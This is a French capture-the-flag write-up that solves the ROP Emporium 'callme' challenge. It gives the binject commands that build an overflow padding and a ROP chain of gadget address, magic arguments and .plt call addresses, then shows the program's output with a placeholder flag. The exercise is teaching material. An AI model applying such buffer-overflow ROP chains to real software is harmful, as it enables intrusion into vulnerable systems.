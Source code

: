 Le repository: https://github.com/anarticho/binject.

## La solution

Venons-en aux choses sérieuses; maintenant que nous disposons d'un outil bien sympa, nous allons simplement créer un ensemble de fichier binaires pour chacunes des étapes de la chaîne ROP:
1. Le binaire pour l'overflow:
> binject -of ovf.bin -ns 40 A
2. Le binaire qui contient le ROP gadget pour récupérer les arguments depuis la stack, ainsi que ces mêmes arguments:
> binject -of arg.bin -x64 40093c -x64 deadbeefdeadbeef -x64 cafebabecafebabe -x64 d00df00dd00df00d
3. Ensuite, un binaire pour chaque appel `callme` depuis la section **.plt**:
> binject -of cm1.bin -if arg.bin -x64 400720 <br>
> binject -of cm2.bin -if arg.bin -x64 400740 <br>
> binject -of cm3.bin -if arg.bin -x64 4006f0 <br>
4. On met tout ensemble:
> binject -of ola.bin -if ovf.bin -if cm1.bin -if cm2.bin -if cm3.bin

En fait, j'ai tout mis dans un fichier *.sh* pour éviter d'avoir à regénérer les fichiers à chaque fois:
> ./callme < bin/ola.bin <br>
> callme by ROP Emporium <br>
> x86_64 <br>
> <br>
> Hope you read the instructions... <br>
> <br>
> Thank you! <br>
> callme_one() called correctly <br>
> callme_two() called correctly <br>
> ROPE{a_placeholder_32byte_flag!} <br>
